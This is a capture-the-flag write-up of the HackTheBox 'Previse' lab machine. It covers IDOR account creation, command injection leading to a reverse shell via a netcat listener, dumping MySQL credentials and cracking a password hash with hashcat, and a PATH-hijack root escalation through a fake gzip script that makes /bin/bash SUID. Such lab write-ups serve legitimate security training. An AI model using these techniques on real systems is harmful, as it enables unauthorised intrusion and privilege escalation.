

# HACKTHEBOX: Previse

*Previse* was an easy difficulty Linux box vulnerable to IDOR, which allows any unauthenticated attacker to create an account by accessing `accounts.php`, which loads and then the redirects to `login.php`. After creating an account on `accounts.php`, the attacker can download the web app's source code to retrieve a MySQL database password, and discover command injection in `logs.php`.
After exploiting command injection to gain access to the system, reading the MySQL database exposes the password hash of the user *m4lwhere* which can be easily cracked with rockyou.txt.
The user *m4lwhere* can run the command `sudo /opt/scripts/access_backup.sh` as root without a password it calls `gzip` with a relative path, so creating a shell script called `gzip` and adding it to $PATH lets the user run the `gzip` shell script as root.

The script [previse.go](previse.go) exploits the initial command injection vulnerability in the previse web app.

## Recon and Enumeration

Running an `nmap` scan shows there is an HTTP server on port 80


Visiting the box in a web browser brings the visitor to `http://10.10.11.104/login.php`. We don't have an account, so we need to find out how to make one.


Note that the site is running php. Run a ffuf scan to search for interesting php files.
```
$ ffuf -w ~/Wordlists/directories.txt -u "http://10.10.11.104/FUZZ.php" -c | tee previse_php.ffuf
```


Send a login request to `login.php`, and resend the POST request to `accounts.php`. Even though we are not logged in yet, we can access the `accounts.php` page. We can read the contents of the `accounts.php` page because it is served, and then afterwards it redirects to `login.php`.


We need to include `confirm` with the form to create an account. Any unauthenticated user can send the following post request to `http://10.10.11.104/accounts.php`. In this request, a user is created with credentials `alterego:alterego`


After authenticating with `alterego:alterego` and visiting `http://10.10.11.104/files.php` the attacker can download a copy of the source code titled `siteBackup.zip`.


Dangerous PHP functions can be grep'd. The following snippet of source code comes from `logs.php`. It appears that there is no input validation or sanitization of the `delim` parameter, and may be vulnerable to remote code execution.


## Exploitation and user.txt
Running `nc -lvnp 9001` starts a netcat listener. Sending the following post request to `logs.php` abuses remote code execution to gain a reverse shell.


MySQL credentials are discovered in `config.php`


Access the mysqldb using the creds `root:mySQL_p@ssw0rd!:)`
```
www-data@previse:/var/www/html$ mysql --user='root' -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 114738
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use previse;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)

mysql> select * from accounts;
+----+-------------+------------------------------------+---------------------+
| id | username    | password                           | created_at          |
+----+-------------+------------------------------------+---------------------+
|  1 | m4lwhere    | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | alterego    | $1$🧂llol$y935oNSqbqSNyJy3Y/j1Q0 | 2021-12-02 23:41:38 |
+----+-------------+------------------------------------+---------------------+
6 rows in set (0.00 sec)

mysql>
```

Put m4lwhere's password hash into a file called `hash.txt` and use hashcat to crack the hash with the rockyou wordlist.
```
hashcat -a 0 -m 500 hash.txt ~/Wordlists/rockyou.txt
```
Hashcat cracks the hash, with the password `ilovecody112235!`. Back in the reverse shell, log in with the credentials `m4lwhere:ilovecody112235!` and capture **user.txt**.
```
www-data@previse:/var/www/html$ su m4lwhere
Password: ilovecody112235!

m4lwhere@previse:/var/www/html$ cd  
m4lwhere@previse:~$ ls -l
total 4
-r-------- 1 m4lwhere m4lwhere 33 Sep 23 04:31 user.txt
m4lwhere@previse:~$
```

## Privilege Escalation and root.txt
Running `sudo -l` lists the commands the user is allowed to run as root.


Examine the contents of `/opt/scripts/access_backup.sh`
```
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

This script calls `gzip` using the relative path, rather than the absolute path of `/bin/gzip`. Create the script `/home/m4lwhere/scripts/gzip` to set the suid execute bit on /bin/bash to allow user m4lwhere to run `/bin/bash` as root:
```
#!/bin/bash
chmod +sx /bin/bash
```

Add the directory `/home/m4lwhere/scripts` to path to abuse the relative path call in `/opt/scripts/access_backup.sh`. Then finally, escalate privileges.

